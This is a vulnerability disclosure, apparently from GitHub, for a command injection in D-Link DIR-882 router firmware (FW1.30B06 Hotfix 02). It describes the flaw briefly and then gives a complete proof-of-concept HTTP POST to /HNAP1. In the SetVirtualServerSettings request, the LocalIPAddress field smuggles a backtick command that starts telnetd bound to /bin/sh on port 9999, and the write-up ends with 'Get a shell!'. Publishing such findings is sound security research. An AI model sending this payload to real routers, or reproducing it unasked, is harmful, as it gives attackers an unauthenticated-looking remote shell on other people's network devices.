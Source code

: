 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882

Version:DIR_882_FW1.30B06_Hotfix_02(Download Link:https://support.dlink.com/productinfo.aspx?m=DIR-882-US)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

`LocalIPAddress` is directly passed by the attacker.After that, call the function sub_45651C.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `libfcgi.so` binary:

Eventually, the initial input cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

Because the firmware of dir-878 is similar to dir-882, dir-878 may also have the same problem. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `LocalIPAddress` as **`telnetd -l /bin/sh -p 9999 -b 0.0.0.0`192.168.100.153**, and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: 9E6B4A7474510C8EA53D489BB0B327DF 1640594925146
Content-Length: 787
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/VirtualServer.html
Cookie: uid=n9g9DHeR

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>pjqwudi</VirtualServerDescription>
					<ExternalPort>9</ExternalPort>
					<InternalPort>9</InternalPort>
					<ProtocolType>UDP</ProtocolType>
					<ProtocolNumber>17</ProtocolNumber>
					<LocalIPAddress>`telnetd -l /bin/sh -p 9999 -b 0.0.0.0`192.168.100.153</LocalIPAddress>
					<ScheduleName>Always</ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>
